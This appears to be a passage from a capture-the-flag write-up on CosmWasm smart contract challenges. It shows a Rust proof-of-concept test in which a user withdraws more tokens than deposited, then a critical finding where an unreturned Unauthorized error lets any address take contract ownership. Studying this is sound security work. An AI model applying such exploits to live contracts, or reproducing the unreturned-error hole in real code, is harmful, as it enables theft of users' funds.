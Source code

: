 ```rust
        let balance: Balance = app
            .wrap()
            .query_wasm_smart(
                contract_addr.clone(),
                &QueryMsg::UserBalance {
                    address: USER.to_string(),
                },
            )
            .unwrap();
        
        // Assert it's 10 (the same amount they called Mint with)
        assert_eq!(balance.amount, Uint128::from(10u128));

        // USER calls burn, burning all 10 of their shares
        app.execute_contract(
            Addr::unchecked(USER),
            contract_addr.clone(),
            &ExecuteMsg::Burn {
                shares: balance.amount
            },
            &[],
        )
        .unwrap();

        // Asserting that "USER" has successfully stolen tokens from other users
        // Asserting that "USER" has withdrawn more funds than deposited
        let user_bal = app.wrap().query_balance(USER, DENOM).unwrap();
        assert!(user_bal.amount.u128() > 10_000u128);
        assert_eq!(user_bal.amount, Uint128::from(10_165u128));
    }

```

---

## Challenge 05: *Draupnir*

### Description

#### Severity: $\textcolor{red}{\textsf{Critical}}$

There is a vulnerability in this contract in the `accept_owner` function, specifically on line 129 of `contract.rs`. This is the code on line 129:
```rust
    if state.proposed_owner != Some(info.sender.clone()) {
        ContractError::Unauthorized {};
    }
```

The problem is that the `ContractError::Unauthorized {}` isn't actually returned. This allows any address to call the `AcceptOwner` execute method and make themselves the new owner of the contract.
